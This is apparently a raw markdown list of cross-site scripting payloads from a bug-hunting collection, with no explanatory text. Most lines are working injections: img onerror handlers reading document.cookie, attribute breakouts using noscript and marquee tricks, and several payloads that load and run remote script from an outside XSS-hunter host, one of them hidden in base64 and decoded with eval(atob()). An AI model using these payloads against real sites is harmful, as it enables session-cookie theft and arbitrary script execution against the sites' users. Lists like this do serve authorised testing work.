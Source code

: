 # -img-src-x-onerror-alert-0000000040document.domain-
&lt;img src=x onerror=alert&amp;#0000000040document.domain)>
TEST<br><br><center><font color="red">bughunt-borneo.org<br><br><img src=x onerror=alert(document.cookie)><br><br><img src=x onerror=prompt(//zheev.xss.ht)>
"><script src=https://zheev.xss.ht></script>
<script>$.getScript("//zheev.xss.ht")</script>
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//zheev.xss.ht");a.send();</script>
<img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vemhlZXYueHNzLmh0Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw&#61;&#61; onerror=eval(atob(this.id))>
"><script>prompt(document.cookie)</script>
"><noscript><p title= "</noscript><img src=x onerror=alert(document.cookie)>">
"><u>XSS Vulnerability</u><marquee+onstart='alert(document.cookie)'>XSS
